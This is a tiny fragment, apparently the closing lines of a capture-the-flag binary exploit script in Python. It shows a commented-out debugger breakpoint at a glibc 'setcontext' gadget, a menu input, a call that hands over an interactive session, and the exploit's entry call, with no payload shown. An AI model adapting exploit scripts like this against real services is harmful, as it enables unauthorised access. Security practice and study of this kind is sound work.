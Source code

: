 ```py
    #gdb.attach(p,'b* setcontext+53')
    p.sendlineafter(">> ","4")
    p.interactive()

exp()

```
